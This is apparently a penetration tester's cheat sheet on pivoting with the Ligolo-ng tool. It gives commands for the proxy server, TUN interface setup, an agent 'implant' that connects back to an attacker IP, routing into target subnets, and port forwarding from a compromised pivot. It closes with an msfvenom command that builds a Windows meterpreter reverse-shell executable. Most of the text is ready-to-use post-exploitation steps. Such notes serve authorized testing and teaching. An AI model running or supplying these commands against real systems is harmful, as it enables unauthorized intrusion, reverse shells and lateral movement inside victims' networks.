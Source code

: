 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - cross-platform
  - ligolo-ng
---
```

# Ligolo-ng

## Setup

Install it according to your package manager

```
$ sudo apt install -y ligolo-ng
```

## Server

TODO: Fill this info

Self-signed certificate.

```
root@hackware-os:~# ./proxy -selfcert
```

Use LetsEncrypt certificates.

```
root@hackware-os:~# ./proxy -autocert
```

```
root@hackware-os:~# ip address show ligolo

root@hackware-os:~# ip tuntap add user root mode tun ligolo

root@hackware-os:~# ip link set ligolo up
```


```
ligolo-ng » certificate_fingerprint
```

## Implant

```
> ./agent -connect <attacker_IP>:11601 -ignore-cert
```

Select an active session.

```
ligolo-ng » session
```

Route the subnet.

```
[Agent : username@computer] » ifconfig
```

```
root@hackware-os:~# ip route add <subnet_target> dev ligolo

root@hackware-os:~# ip route add 192.168.5.0/24 dev ligolo
```

> [!INFO]
> When using `nmap` always specify the flag `-PE` or `--unprivileged` to prevent false positives.

```
ligolo-ng » start
```

### Port Forwarding

```
[Agent : username@computer] » listener_add --addr <compromised_pivot_IP>:8443 --to 127.0.0.1:<local_PORT>
```

Then you can launch a reverse shell handler. Just specify the compromised system's IP and PORT.

```
$ msfvenom -p windows/x64/metepreter/reverse_tcp lhost=<compromised_pivot_IP> lport=8443 -f exe -o implant.exe
```

```
msf > set lport <local_PORT>
```

```
[Agent : username@computer] » listener_list

[Agent : username@computer] » listener_list <agent_ID>
```

---
## References

### Source Repositories

- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### WhiteOakSecurity

- [WhiteOakSecurity: Pivoting VPN Process Tunneling with Ligolo-ng](https://www.whiteoaksecurity.com/blog/pivoting-vpn-process-tunneling-ligolo-ng/)

### 4pfsec

- [4pfsec: Ligolo](https://4pfsec.com/ligolo)